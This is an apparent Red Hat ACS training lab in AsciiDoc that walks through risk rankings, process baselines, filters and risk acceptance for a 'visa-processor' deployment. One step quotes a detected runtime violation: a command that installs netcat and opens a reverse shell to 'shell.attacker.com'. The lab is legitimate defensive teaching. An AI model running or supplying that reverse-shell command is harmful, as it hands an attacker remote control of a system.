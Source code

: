 = Understanding Risk

== Module goals

* View risk justifications
* Lock baselines to track deviations
* Find vulnerabilities quickly with filters

== Introduction to Risk

You are now acquainted with the detailed information that Red Hat^(R)^ Advanced Cluster Security for Kubernetes (RHACS) provides about vulnerabilities and workflows to manage individual vulnerabilities. Often, the number of vulnerabilities detected can seem daunting to those uninitiated in security practice. You need to bring runtime, security configuration management, and vulnerability all together to get a more precise view of what is going on in your clusters. You need a system to evaluate the potential risk of harm from these vulnerabilities, and you need a way of prioritizing vulnerabilities to be addressed and not just deferring them.

You are now acquainted with the detailed information that Red Hat^(R)^ Advanced Cluster Security for Kubernetes (RHACS) provides about vulnerabilities and workflows to manage individual vulnerabilities. Often, the number of vulnerabilities detected can seem daunting to those uninitiated in security practice. You need to bring runtime, security configuration management, and vulnerability all together to get a more precise view of what is going on in your clusters. You need a system to evaluate the potential risk of harm from these vulnerabilities, and you need a way of prioritizing vulnerabilities to be addressed and not just deferring them.

RHACS understands the three major phases of an application's lifecycle to be _build_, _deploy_, and _runtime_.

The risk evaluation functionality of RHACS is used to understand how deployment-time configuration and runtime activity impact the likelihood of exploits occurring and how successful those exploits may be.

RHACS assesses risk across your entire environment and ranks your running deployments according to their security risk. It also details vulnerabilities, configurations, and runtime activities that require immediate attention. This helps you prioritize the remedial actions you plan to take.

Realistically it is only possible to tackle some sources of risk, so organizations prioritize their efforts. RHACS helps to inform that prioritization.

== View Risk Justifications

=== View Risks by Deployment

In this section, you look at the complete view of the risks by deployments in all the clusters of your system.

This list view shows all deployments in all clusters and namespaces, ordered by risk priority. A multi-factor risk metric sorts deployments based on policy violations, image contents, deployment configuration, and other similar factors. Deployments at the top of the list present the most risk.

.Procedure
. From the left navigation menu, select the *Risk* tab:

image::04-risk-1.png[link=self, window=blank, width=100%]

=== View Single Deployment Details

In this section, you examine the riskiest deployment to understand how risk is assessed during deploy time.

.Procedure
. Click the `visa-processor` deployment to bring up the *Risk Details* panel, with the *Risk Indicators* tab selected:

image::04-risk-2.png[link=self, window=blank, width=100%]

The *Risk Indicators* tab shows why this deployment is highly risky. The deployment has serious, fixable vulnerabilities, but it also has configurations such as network ports and service exposure outside the cluster, making it more likely to be attacked. In addition, other configurations, such as privileged containers, mean that a successful attacker has access to the underlying host network and file system, including other containers running on that host.

IMPORTANT: 
====
As you scroll down think about what risk indicators are important to your organization? How would you work to mitigate that risk?
====

[start=2]
. Navigate to the bottom of the *Risk Indicators* page and take a minute to review the *Components Useful for Attackers* section.

IMPORTANT: 
====
Why do you think the deployment is rated as the *"Riskiest deployment"*
====

All of these configurations are gleaned automatically by RHACS from OpenShift, and the built-in policies assign a risk score to each, meaning that this risk report is available as soon as you start running RHACS.

And, hopefully, you can see why this image is highly insecure in the service configuration section, you can see that the sysadmin capabilities are added port 8080 is exposed in the cluster, and you can see that components useful for attackers are present components such as app bash curl and wget. This means a successful attacker gains complete control over this entire OpenShift^(R)^ cluster. 

[start=3]
. Navigate to the deployment details

image::04-risk-3.png[link=self, window=blank, width=100%]

Here we can see a complete breakdown of the deployment details including the container configuration the secrets that are mounted in the image name specific commands and the security context of the container which is *privileged*.

All of this information continues to add context to the container and how it's running in the cluster bumping up its risk factors.

[start=4]
. Next, click on the *Process Discovery* Tab

image::04-risk-4.png[link=self, window=blank, width=100%]

This tab shows you all of the running processes in the container. You can see that a baseline of processes is already established and that a few violations of that baseline have already been discovered. The baseline is a list of the processes currently running. Alerts are created if RHACS detects new processes that are not in the baseline.

If you scroll to the bottomw of the page. you could add those processes to the baseline with the `+` sign and silence any future alerts. But typically we want to understand what our applications are doing before we enact any policy enfocement or exceptions.

[start=5]
. Click the drop-down arrow next to `/bin/bash` to reveal the specific context that triggered this violation: `-c /usr/bin/sudo /usr/bin/apt-get -y install netcat; /usr/bin/sudo /bin/nc shell.attacker.com 9001 -e /bin/bash`.

image::04-risk-5.png[link=self, window=blank, width=100%]

IMPORTANT: 
====
Does this command running in a container at runtime seem important?
====

. Click the *View Graph* in the header bar to call up the *Event Timeline*.

image::04-risk-6.png[link=self, window=blank, width=100%]

The event timeline shows for each pod the process activity that has occurred over time. It has the visa-processor and visa-processor-sidecar information in the interface.

. Click the squares or circles for the process activity:

image::04-risk-7.png[link=self, window=blank, width=100%]
image::04-risk-8.png[link=self, window=blank, width=100%]

While ACS monitored the baseline activity it picked up a feew policy violations from the container. as you click the blew dot you will see what is being flagged.

NOTE: You can take advantage of the constrained lifecycle of containers for better runtime incident detection and response. Containers are not general-purpose virtual machines and therefore, generally have a simple lifecycle. They typically have a startup period, with some initialization, and then settle down to a small number of processes running continuously and making or receiving connections. Deviations from the baseline can be used to take enforcement action and alert team members. Runtime activity rules can be combined with other activity.

=== Lock Baseline

Fortunately, the `visa-processor` deployment is unlocked, and we can change our baselines. No let's take a look at what processes are explicitly allowed to run in the deployment.

.Procedure
. Click the *Process Discovery* tab on the *Risk Details* panel. Or click out of the *Process Discovery Graph*. 
. Scroll down to the *Spec Container Baselines* section:

image::04-risk-9.png[link=self, window=blank, width=100%]

The tooltip shows that the `visa-processor` container is already unlocked and warns that locking the process baselines will configure alerts in the future. The list in the RHACS Process Discover UI shows all processes discovered and added to the baseline in the first hour of runtime.

[start=3]

. Scroll down to the bottom of the list and see another container, the `visa-processor-sidecar` that is also accounted for.
. Hover over the lock icon for the `visa-processor-sidecar` and note that it is not locked.

image::04-risk-10.png[link=self, window=blank, width=100%]

[start=5]

. Go ahead and lock the baseline. All further processes run in this sidecar that is not among the several listed result in a triggered alert.
. Click *X* to close the details panel.

== Find vulnerabilities quickly with filters

In the Risk view and most UI pages, RHACS has a filter bar at the top that allows you to narrow the reporting view to matching or non-matching criteria. Almost all of the attributes that RHACS gathers are filterable. This is very useful in the Risk view when you know what you are looking for, for example, when you want answers to questions such as "What applications have CVE-2021-44228 present?"

.Procedure
. Enter `Process Name` in the filter bar (where it reads `Add one or more resource filters`) and select the *Process Name* key.
. Enter `bash` and then press *Enter*.

image::04-risk-11.png[link=self, window=blank, width=100%]

NOTE: Several deployments are shown to have run `bash` since they started--and all of them are in production. This could be a serious threat that we want to monitor.

[start=3]
. To the right of the filter bar, hover over the *+* (Create Policy) button to reveal the *Create Policy from Current Search* tooltip.

image::04-risk-12.png[link=self, window=blank, width=100%]

[start=4]
. Fill the policy details with a name, severity and catagory and hit *Next*.

NOTE: These steps are only to showcase the workflow. We will come back to policy creation later. Don't worry about being precise.

image::04-risk-13.png[link=self, window=blank, width=100%]

You will see that the policy behavior is set to runtime.

[start=5]
. click *Next*

image::04-risk-14.png[link=self, window=blank, width=100%]

And you notice that the policy criteria is set to the Process name is: *bash*

IMPORTANT:
====
Make sure to take advantage of the filtering capabilities in the Risk tab to craft policies. What other policies would be useful to your organization?
====

=== Explore Advanced Filtering

You can write more advanced filters focusing on particular scopes to detect vulnerabilities more accurately.

Local page filtering on the *Risk* view combines the search terms by using the following methods:

* Combines the search terms within the same category with an `OR` operator. For example, if the search query is `Cluster:A,B` the filter matches cluster `A` or cluster `B` deployments.

* Combines the search terms from different categories with an `AND` operator. For example, if the search query is `Cluster:A+Namespace:Z`, the filter matches deployments in cluster `A` and in namespace `Z`.

When you add multiple scopes to a policy, the policy matches violations from any of the scopes. For example, if you search for `(Cluster A OR Cluster B) AND (Namespace Z)` it results in two policy scopes, `(Cluster=A AND Namespace=Z)` OR `(Cluster=B AND Namespace=Z)`.

NOTE: Not all filters can be used in policies.

RHACS drops or modifies filters that do not directly map to policy criteria and reports the dropped filters.

See the link:https://docs.openshift.com/acs/4.4/operating/evaluate-security-risks.html[Understanding ... the filtering criteria into policy criteria^] documentation for more information.

== What would you do?

What filters would be useful in your day-to-day risk workflow? 
How would you scope your filters by team/application/cluster?

Try some of these scopes yourself by indicating different namespaces in your filters.

=== Risk Acceptance workflow (Needs work)

As a security analyst who is a deferral approver, you can evaluate requested deferrals and respond to them through the RHACS portal.

. Procedure
. Navigate to *Vulnerability Management -> Risk Acceptance* and search for the from the previous example, CVE-2022-1292.

image::02_vuln_10.png[]

[start=2]
. Review the vulnerability's comments, scope, and action to decide if you want to approve it.
. Click the three dots.

image::options_menu_icon.png[]

At the far right of the CVE, approve or deny the request for approval and provide a rationale.

You can see your *Approved Deferrals* from the appropriate tab above and make changes.
. You can also click through to the deployment that has that vulnerability and see its *Risk Priority*:

[start=4]
. Next, Click `1 deployment`:

image::rhacs_vuln_deployment.png[RHACS 1 Deployment]

[start=5]
. Click the `visa-processor` link to be taken to the *Deployment Overview*.

image::02_vuln_11.png[Risk Visa]

How is *Risk Priority* determined?

That is the subject of the next lab, *Risk Management*

== Report Vulnerabilities to Teams

IMPORTANT: You cannot send reports in this training lab. It is not integrated with an email server without an email notifier.

As organizations must constantly reassess and report on their vulnerabilities, some find it helpful to have scheduled communications with key stakeholders to help manage vulnerabilities.

You can use RHACS to schedule these regular communications through email. Red Hat recommends that you scope these communications to the most relevant information that the key stakeholders need.

== Summary

In this lab, you became familiar with the power of RHACS. RHACS does not simply surface vulnerabilities. You learned the various risk priority justifications RHACS provides and filtered and searched through these vulnerabilities. RHACS reports the risk indicators, deployment details, and processes necessary to discover vulnerabilities for each deployment.

Great job!! Have fun with *Policy Management*!